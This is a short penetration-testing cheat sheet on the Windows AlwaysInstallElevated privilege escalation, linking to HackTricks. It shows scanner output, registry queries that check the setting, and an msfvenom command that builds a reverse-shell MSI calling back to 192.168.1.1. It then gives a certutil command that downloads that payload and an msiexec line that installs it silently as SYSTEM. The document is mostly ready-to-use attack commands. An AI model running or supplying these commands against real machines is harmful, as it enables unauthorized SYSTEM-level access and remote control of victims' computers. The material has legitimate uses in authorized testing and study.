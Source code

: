 # AlwaysInstallElevated

If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) \*.msi files as NT AUTHORITY\SYSTEM.

[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated ](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)

```
����������͹ Checking AlwaysInstallElevated                                                                        
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 -f msi -o priv.msi
```

```
certutil.exe -urlcache -split -f "http://192.168.1.1/priv.msi"
msiexec /quiet /qn /i C:\Users\test\Desktop\priv.msi
```

